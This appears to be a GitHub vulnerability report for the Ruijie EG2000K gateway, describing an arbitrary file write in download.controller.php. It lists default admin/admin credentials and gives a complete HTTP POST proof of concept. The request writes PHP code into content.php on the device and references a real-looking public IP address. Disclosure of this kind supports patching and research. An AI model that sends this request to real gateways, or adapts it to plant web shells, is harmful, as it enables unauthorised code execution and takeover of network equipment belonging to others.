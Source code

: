 ## Ruijie EG2000K Easy Gateway has an arbitrary file writing vulnerability

## supplier
https://www.ruijie.com.cn/

## Affected version
RuiJie EG2000K

## Vulnerability file
/tool/controller/download.controller.php

## describe
Ruijie Networks is a professional network manufacturer with a full range of network equipment product lines and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.
Ruijie EG2000K gateway has an arbitrary file writing vulnerability. An attacker can obtain server permissions through the vulnerability, causing the server to crash.


1.local reproduction
The login interface is as shown in the figure
Account/Password admin/admin
<img width="1651" alt="image" src="https://github.com/user-attachments/assets/bc51ca89-e9b5-45e7-90cc-c139bd872448">
<img width="1697" alt="image" src="https://github.com/user-attachments/assets/70ce8187-a1e4-49cb-93be-7b8a39773547">

2. Through the following POC, write <?php phpinfo();?> into the content.php file.
POC
```
POST /tool/index.php?c=download&a=save HTTP/1.1
Host: 127.0.0.1:4430
Cookie: LOCAL_LANG_COOKIE=zh; helpKey=home_sys; RUIJIEID=48m0l3tmicmru617t91md5hqe7; user=admin; HOME_ALERT=44483
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: https://218.200.8.118:4430
Referer: https://218.200.8.118:4430/stability_pi/stability_eg2000k.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.12.3
Te: trailers
Connection: keep-alive

content=<?php phpinfo();&file=content.php
```
